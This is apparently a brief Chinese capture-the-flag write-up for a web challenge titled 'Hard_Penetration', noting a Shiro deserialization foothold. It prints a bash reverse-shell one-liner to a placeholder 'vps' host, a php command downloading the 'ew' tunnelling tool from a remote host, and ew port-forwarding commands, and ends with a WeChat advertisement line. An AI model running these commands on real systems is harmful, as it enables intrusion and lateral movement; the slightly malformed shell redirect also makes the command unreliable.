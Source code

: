 ![在这里插入图片描述](img/b01099935d5c65b6e80c2e1de348c1fb.png)

# **WEB部分**

## **Hard_Penetration**

***题目内容：渗透测试主要以获取权限为主，这一次，你能获取到什么权限呢。***

前面是一个shiro反序列化，脚本都能打通，弹个shell：

```
bash -c 'bash -i >/dev/tcp/vps/port 2>&10>&1'
```

### 收集到的信息有：

### php上传ew：

```
php -r "file_put_contents('ew',file_get_contents('http://xps/ew_linux_x64'));"
```

### 转发端口：

```
./ew_linux_x64 -s lcx_listen -l 18888 -e 18889

./ew -s lcx_slave -d vps -e 18889 -f  127.0.0.1 -g 8005

+WX:machinegunjoe666免费获取资料
```
